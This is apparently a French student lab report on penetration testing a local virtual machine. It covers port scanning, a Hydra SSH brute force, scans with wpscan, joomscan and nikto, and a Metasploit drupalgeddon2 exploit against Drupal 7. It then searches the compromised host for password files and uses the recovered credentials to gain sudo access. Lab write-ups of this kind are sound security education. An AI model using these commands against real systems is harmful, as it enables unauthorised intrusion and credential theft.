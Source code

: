 # Rapport du TP2

On commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1731580718599](image/rapport-tp2/1731580718599.png)

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.15/24

On test la connection entre les 2 machines
`ping 10.0.2.15`
![1731580691249](image/rapport-tp2/1731580691249.png)

on commence par chercher tous les ports ouverts sur la machine cible
`nmap -p- 10.0.2.15`
![1731580972906](image/rapport-tp2/1731580972906.png)
On voit que 5 ports sont ouverts : le 22, le 80, le 5000, le 8081, le 9001

## Port 22

On peut analyser plus en détail le port 22
`nmap -sC -sV -A -p 22 10.0.2.15`
![1731584848917](image/rapport-tp2/1731584848917.png)

On voit qu'il y a du ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`
![1731586985013](image/rapport-tp2/1731586985013.png)
Je ne trouve rien de spécial.


## Port 80

On peut analyser plus en détail le port 80
`nmap -sC -sV -A -p 80 10.0.2.15`
![1731584826875](image/rapport-tp2/1731584826875.png)

Le port 80 est associé au serveur web. On va donc essayer de se rendre à l'url 10.0.2.15 sur le navigateur
![1731587132416](image/rapport-tp2/1731587132416.png)
On tombe sur une page web d'un blog, je ne remarque rien d'anormal ici.

Je fais une analyse avec nikto
![1731588611774](image/rapport-tp2/1731588611774.png)
Ca ne donne rien de concluant

J'essaye de faire une analyse avec dirb sur tous les fichiers, par exemple :
`dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`

Je ne trouve rien d'anormal.

## Port 5000

On peut analyser plus en détail le port 5000
`nmap -sC -sV -A -p 5000 10.0.2.15`
![1731587606795](image/rapport-tp2/1731587606795.png)
On observe qu'il est indiqué que le site est créé avec Wordpress qui est un CMS ("http-generator: WordPress 5.7.2")

En se rendant à l'url 10.0.2.15:5000, on tombe sur un blog sans css fais avec wordpress.

On peut faire un wpscan qui permet de trouver des vulnérabilité sur les sites fonctionnant avec wordpress.
`wpscan --url http://10.0.2.15:5000`
![1731588500737](image/rapport-tp2/1731588500737.png)

Je ne remarque rien de spécial.

## Port 8081

On peut analyser plus en détail le port 5000
`nmap -sC -sV -A -p 8081 10.0.2.15`
![1731589313977](image/rapport-tp2/1731589313977.png)

On remarque que le site est créé avec Joomla, un autre CMS ("http-generator: Joomla ! Open Source Content Management")

En se rendant à l'url 10.0.2.15:8081, on tombe sur une page web où l'on retrouve encore le mot clé Joomla.
![1731589490074](image/rapport-tp2/1731589490074.png)

On peut faire un joomscan qui permet de trouver des vulnérabilité sur les sites Joomla.
`joomscan -u http://10.0.2.15:8081`
![1731591241940](image/rapport-tp2/1731591241940.png)

On constate que joomscan détecte des injections SQL.

## Port 9001

On peut analyser plus en détail le port 9001
`nmap -sC -sV -A -p 9001 10.0.2.15`
![1731589907724](image/rapport-tp2/1731589907724.png)

On remarque que ce site est créé avec Drupal, encore un CMS ("http-generator: Drupal 7")

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités. 

En faisant un `search drupal 7`, on constate qu'il y a des API property injection et des injection SQL :
![1731591971649](image/rapport-tp2/1731591971649.png)


On peut accéder à "exploit/unix/webapp/drupal_drupalgeddon2" qui a une API Porperty injection. Puis on accèdes aux options.
![1731592103044](image/rapport-tp2/1731592103044.png)

On constate que RHOSTS n'est pas configuré. RHOSTS permet de spécifié l'ip de la cible. On va donc lui attribué sa valeur "10.0.2.15".
`set rhost 10.0.2.15`

De plus, RPORT est configuré par défaut à 80.
![1731592744502](image/rapport-tp2/1731592744502.png)

Mais dans notre cas, nous voulons exploiter le port 9001. On défini ainsi le nouveau port ciblé.
`set rport 9001`

Dans les options,, on voit que l'ip de la machine locale est déjà bien configurée donc on a pas besoin de la modifier.
![1731592995000](image/rapport-tp2/1731592995000.png)

On fais un run pour se connecter à la machine cible, puis avec un `getuid` on peut constater qu'on est connecter avec l'username www-data (qui a des restrictions).
![1731593182433](image/rapport-tp2/1731593182433.png)


On peut essayer de chercher tous les fichiers contenant le mot "user" :
`search -f *user*`
![1731593496862](image/rapport-tp2/1731593496862.png)

Je ne trouve rien de concluant.

De même je cherche les fichiers contenant le mot "pass"
`search -f *pass*`

Je découvre un fichier suspects "tyrell.pass" qui pourrait contenir des données d'identification.
![1731593786649](image/rapport-tp2/1731593786649.png)

Je consultre le contenu de ce fichier et celui-ci contient bien des identifiants de connexion.
`cat ./misc/tyrell.pass`
![1731593938198](image/rapport-tp2/1731593938198.png)


Je vais essayer de me connecter à la machine cible avec ces identifiants `ssh tyrell@10.0.2.15`

Les identifiants fonctionnent. En tapant la commande `sudo -l` je constate que mon utilisateur a bien les droits root.
![1731594347470](image/rapport-tp2/1731594347470.png)